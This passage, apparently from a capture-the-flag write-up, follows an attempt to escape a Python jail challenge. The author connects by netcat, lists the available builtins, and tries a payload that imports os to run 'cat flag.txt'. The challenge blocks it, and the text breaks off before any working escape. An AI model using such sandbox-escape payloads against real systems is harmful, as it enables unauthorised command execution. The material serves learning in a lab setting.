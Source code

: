 ### exploiting

Now lets check for variables, functions, classes, and modules that are defined

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(dir())
['__builtins__']
```

there only `__builtins__` module imported, so now lets check how many interesting functions and attributes are included in this module

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(dir(__builtins__))
['__class__', '__cmp__', '__contains__', '__delattr__', '__delitem__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__gt__', '__hash__', '__init__', '__iter__', '__le__', '__len__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__setitem__', '__sizeof__', '__str__', '__subclasshook__', 'clear', 'copy', 'fromkeys', 'get', 'has_key', 'items', 'iteritems', 'iterkeys', 'itervalues', 'keys', 'pop', 'popitem', 'setdefault', 'update', 'values', 'viewitems', 'viewkeys', 'viewvalues']
```

well fewer and not like previously,lets try our last payload direct

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(__import__('os').system('cat flag.txt'))
Oops! Something unexpected happened: name '__import__' is not defined
>>>

```

seems `__import__` is blocked and others, so i suffered for this challenge, and final i got idea of using tuple, after reading and reading 
